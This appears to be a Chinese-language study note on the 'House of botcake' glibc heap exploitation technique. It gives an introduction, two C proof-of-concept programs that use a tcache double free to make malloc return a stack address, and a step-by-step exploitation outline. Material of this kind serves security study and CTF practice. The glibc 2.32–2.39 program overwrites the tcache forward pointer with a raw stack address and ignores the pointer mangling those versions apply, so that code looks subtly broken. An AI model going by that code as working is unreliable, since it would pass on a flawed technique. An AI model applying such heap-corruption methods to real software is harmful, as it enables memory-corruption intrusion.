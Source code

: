 ```yaml
---
title: "House of系列"
date: 2025-05-21
---
```

[TOC]

# house of botcake

### 介绍

House of botcacke 合理利用了 Tcache 和 Unsortedbin 的机制，同一堆块第一次 Free 进 Unsortedbin 避免了 key 的产生，第二次 Free 进入 Tcache，让高版本的 Tcache Double Free 再次成为可能。

### POC

#### glibc 2.27 - 2.31

```C
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

int main()
{
    intptr_t stack_var[4];
    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
        x[i] = malloc(0x100);
    }
    puts("Allocating a chunk for later consolidation");
    intptr_t *prev = malloc(0x100);
    puts("Allocating the victim chunk.");
    intptr_t *a = malloc(0x100);
    printf("malloc(0x100): a=%p.\n", a); 
    puts("Allocating a padding to prevent consolidation.\n");
    malloc(0x10);
    
    // cause chunk overlapping
    puts("Now we are able to cause chunk overlapping");
    puts("Step 1: fill up tcache list");
    for(int i=0; i<7; i++){
        free(x[i]);
    }
    puts("Step 2: free the victim chunk so it will be added to unsorted bin");
    free(a);
    
    puts("Step 3: free the previous chunk and make it consolidate with the victim chunk.");
    free(prev);
    
    puts("Step 4: add the victim chunk to tcache list by taking one out from it and free victim again\n");
    malloc(0x100);

    free(a);// a is already freed
  
 
    intptr_t *b = malloc(0x120);
    b[0x120/8-2] = (long)stack_var;

    malloc(0x100);
    intptr_t *c = malloc(0x100);
    printf("The new chunk is at %p\n", c);
    
    // sanity check
    assert(c==stack_var);
    printf("Got control on target/stack!\n\n");

    return 0;
}
```

#### glibc 2.32--2.39

```C
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>


int main()
{
    
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);


    // prepare the target
    intptr_t stack_var[4];

    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
        x[i] = malloc(0x100);
    }
    puts("Allocating a chunk for later consolidation");
    intptr_t *prev = malloc(0x100);
    puts("Allocating the victim chunk.");
    intptr_t *a = malloc(0x100);
    printf("malloc(0x100): a=%p.\n", a); 
    puts("Allocating a padding to prevent consolidation.\n");
    malloc(0x10);
    

    for(int i=0; i<7; i++){
        free(x[i]);
    }

    free(a);

    free(prev);

    malloc(0x100);
    free(a);// a is already freed
    intptr_t *b = malloc(0x120);
    puts("We simply overwrite victim's fwd pointer");
    b[0x120/8-2] = (long)stack_var;
    
    // take target out
    puts("Now we can cash out the target chunk.");
    malloc(0x100);
    intptr_t *c = malloc(0x100);
    printf("The new chunk is at %p\n", c);
    
    // sanity check
    assert(c==stack_var);

    return 0;
}
```

### 利用思路

1. 申请7个0x100大小的chunk
2. 在申请大小为0x100的chunk1 ，chunk2 
3. free 7个chunk填充tcache
4. free chunk2,chunk1 ，使其进入unsorted bin，并因为连续所以合并。
5. malloc 0x100，从tache里取出一个free chunk
6. free chunk2 使其进入 tache bin，这样tache bin中就有了unsorted bin中的一块小内存
7. malloc 0x120 从 unsorted bin中分割出来一块内存，可覆盖chunk2的next指针
8. 伪造next指针

